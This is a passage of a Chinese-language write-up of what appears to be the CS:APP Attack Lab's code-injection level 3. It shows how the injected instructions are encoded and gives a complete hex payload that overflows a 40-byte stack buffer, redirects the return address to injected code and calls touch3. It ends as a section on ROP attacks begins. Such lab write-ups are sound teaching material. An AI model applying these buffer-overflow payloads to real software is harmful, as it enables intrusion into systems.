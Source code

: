```text
gcc -c CI-L3.s
objdump -d CI-L3.o > CI-L3.d
```

其中包含了指令对应的编码

![img](pics/v2-ce99a5012d9329e8857cc060a9806fb2_720w.jpg)

所以该指令对应的编码为`48 c7 c7 78 dc 61 55 c3`。

由于我们需要将缓冲区填满，才能覆盖原始的返回地址，而之前总共指令长度为`9+8=17`个字节，缓冲区大小为40字节，所以我们还需随机填充23个字节。

然后将原始返回地址修改为`mov`指令的地址，然后填充函数`touch3`的地址。

所以构建的十六进制数为

```text
35 39 62 39 39 37 66 61 00 /* "59b997fa" */
48 c7 c7 78 dc 61 55 /* mov */
c3 /* ret */
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 /* match buf */
81 dc 61 55 00 00 00 00 /* mov address */
fa 18 40 00 00 00 00 00 /* touch3 address */
```

将其保存到文本`CI-L3.txt`，然后执行` ./hex2raw < CI-L3.txt > CI-L3-raw.txt`将其转换为字符串，保存在`CI-L3-raw.txt`中，就是最终的答案。

我们可以在gdb中运行`run -q < CI-L3-raw.txt`

![img](pics/v2-aff3e5bd095b7054ec364e7ff7ba45d2_720w.jpg)

## ROP攻击

目前常用的防御技术是将栈位置随机，并且设置栈的指令是不可执行的，所以缓冲区注入攻击就失效了，此时可以使用ROP攻击。
